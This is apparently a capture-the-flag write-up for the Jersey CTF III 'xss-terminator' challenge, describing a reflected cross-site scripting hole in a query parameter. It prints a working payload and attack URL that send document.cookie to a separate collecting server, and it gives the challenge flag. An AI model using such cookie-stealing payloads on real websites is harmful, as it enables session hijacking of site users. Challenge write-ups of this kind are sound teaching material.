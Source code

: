```yaml
---
title: Jersey CTF III - xss-terminator
date: 2023-04-17 09:55:30
tags: writeups
---
```


```
The Terminator told you to put the cookie down, and you didn't listen. Now he is very 
angry! You must find a way to steal the cookie from the vulnerable website and send 
it to the evil server where the Terminator is waiting... just don't make him wait 
too long.
```

For this challenge, we're given two urls. The goal is to make the normal website at `http://198.211.99.71:3000/ ` send the document cookie over to `http://198.211.99.71:3001/cookie?data` (this is what the challenge explicitly tells us to do).

The normal website takes a query parameter q that it parses and places in the html. If you put it through the form on the site your text will be encoded, but if you paste it directly into the URI you can inject whatever sort of javascript you'd like. For example if we paste this as parameter q, we can send the document cookie over to the malicious site where the "terminator" is waiting.

```
<img src=x onerror=this.src='http://198.211.99.71:3001/cookie?data='+document.cookie;>

http://198.211.99.71:3000/?q=<img src=x onerror=this.src='http://198.211.99.71:3001/cookie?data='+document.cookie;>
```

Upon refreshing the page we're given the flag: `jctf{who_said_you_could_open_the_cookie_jar!?}`
